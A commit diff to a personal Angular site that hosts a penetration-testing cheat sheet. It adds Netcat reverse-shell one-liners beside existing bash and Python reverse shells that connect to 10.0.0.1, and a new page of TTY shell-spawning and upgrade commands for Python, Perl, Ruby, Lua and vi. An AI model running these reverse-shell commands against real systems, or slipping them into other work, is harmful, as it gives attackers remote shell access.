

Before and after one commit to crysthofferattier/crysthofferattier-old, an Angular app: page /tty-shell in a window 1280 px wide. Before the commit this address led to /. Shown: the whole page, without its empty margins (0-823 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded; a web font is replaced by a local one.

Commit message:
TTY Shell section

```diff
--- a/src/app/app.component.html
+++ b/src/app/app.component.html
@@ -1 +1,8 @@
-<app-sidebar></app-sidebar>
+<main>
+    <app-sidebar></app-sidebar>
+    <div class="bd-cheatsheet container-fluid">
+        <section id="content">
+            <router-outlet></router-outlet>
+        </section>
+    </div>
+</main>
--- a/src/app/cheat-sheet/reverse-shell/reverse-shell.component.html
+++ b/src/app/cheat-sheet/reverse-shell/reverse-shell.component.html
@@ -2,12 +2,15 @@
 
 <h2>Reverse Shell Cheat Sheet</h2>
 
+<br />
+<br />
 <h3>Bash</h3>
 
 <code>
     bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
 </code>
-
+<br />
+<br />
 <h3>Python</h3>
 
 <code>
@@ -15,3 +18,16 @@ python -c 'import
 socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0);
 os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 </code>
+
+<br />
+<br />
+<h3>Netcat</h3>
+
+<code>
+nc -e /bin/sh 10.0.0.1 1234
+</code>
+<br>
+<br>
+<code>
+rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
+</code>
--- /dev/null
+++ b/src/app/cheat-sheet/tty-shell/tty-shell.component.html
@@ -0,0 +1,75 @@
+<h1>0x02 - TTY Shell</h1>
+
+<h2>Shell Spawning</h2>
+
+<br /><br />
+
+<h3>Python</h3>
+<code>
+    python -c 'import pty; pty.spawn("/bin/sh")'
+    <br>
+    export TERM=xterm
+    <br>
+    Ctrl + Z
+    <br>
+    stty raw -echo; fg
+</code>
+<code>
+    import os
+
+    os.system('/bin/bash')
+</code>
+
+<br /><br />
+
+<h3> Bash</h3>
+
+<code>
+/bin/sh -i
+</code>
+
+<br /><br />
+
+<h3>
+    Perl</h3>
+
+<code>
+
+perl —e 'exec "/bin/sh";'
+</code>
+<br>
+<code>
+exec "/bin/sh";
+</code>
+<br /><br />
+
+<h3>
+    Ruby</h3>
+
+<code>
+
+exec "/bin/sh"
+</code>
+<br /><br />
+
+<h3>
+    Lua</h3>
+
+<code>
+
+os.execute('/bin/sh')
+</code>
+<br /><br />
+
+<h3>
+    vi</h3>
+
+<code>
+
+:!bash
+</code>
+<br>
+<code>
+:set shell=/bin/bash:shell
+
+</code>
--- /dev/null
+++ b/src/app/cheat-sheet/tty-shell/tty-shell.component.ts
@@ -0,0 +1,15 @@
+import { Component, OnInit } from '@angular/core';
+
+@Component({
+  selector: 'app-tty-shell',
+  templateUrl: './tty-shell.component.html',
+  styleUrls: ['./tty-shell.component.css']
+})
+export class TtyShellComponent implements OnInit {
+
+  constructor() { }
+
+  ngOnInit(): void {
+  }
+
+}
--- a/src/app/sidebar/sidebar.component.html
+++ b/src/app/sidebar/sidebar.component.html
@@ -1,4 +1,3 @@
-<main>
     <h1 class="visually-hidden">crysthofferattier.github.io</h1>
 
     <div class="d-flex flex-column flex-shrink-0 p-3 text-white" style="width: 280px;">
@@ -16,12 +15,14 @@
             </li>
             <li class="nav-item">
                 <a href="/home" class="nav-link text-white" aria-current="page" data-bs-toggle="collapse"
-                    data-bs-target="#cheat-sheet-collapse" aria-expanded="false"><i
-                        class="bi bi-file-text">0x00-CheatSheet</i></a>
+                    data-bs-target="#cheat-sheet-collapse" aria-expanded="false"><i class="bi bi-file-text">0x00-CheatSheet</i></a>
                 <div class="collapse" id="cheat-sheet-collapse" style="">
                     <ul>
                         <a href="/reverse-shell" class="nav-link text-white">
                             <i class="bi bi-file-text">0x01 - Reverse Shell</i>
+                        </a>
+                        <a href="/tty-shell" class="nav-link text-white">
+                            <i class="bi bi-file-text">0x02 - TTY Shell</i>
                         </a>
                     </ul>
                 </div>
@@ -36,15 +37,9 @@
                 <strong>Crysthoffer Ratier</strong>
             </a>
             <ul class="dropdown-menu dropdown-menu-dark text-small shadow" aria-labelledby="dropdownUser1">
-                <li><a class="dropdown-item" href="#" target="_blank">GitHub</a></li>
+                <li><a class="dropdown-item" href="https://github.com/crysthofferattier" target="_blank">GitHub</a></li>
                 <li><a class="dropdown-item" href="https://www.linkedin.com/in/crysthofferatier/"
                         target="_blank">LinkedIn</a></li>
             </ul>
         </div>
     </div>
-    <div class="bd-cheatsheet container-fluid">
-        <section id="content">
-            <router-outlet></router-outlet>
-        </section>
-    </div>
-</main>
--- a/src/styles.css
+++ b/src/styles.css
@@ -13,3 +13,10 @@ h1 {
 h2, h3 {
     color: white;
 }
+
+code {
+    font-family: "Neue Haas Unica";
+    font-size: large;
+    letter-spacing: 2.5px;
+    color: #9fef00;
+}
```
Also changed, not shown: src/app/app.module.ts (+8 -4 lines), src/app/cheat-sheet/tty-shell/tty-shell.component.css (added), 2 other files (tests, documents, lock files or other folders).
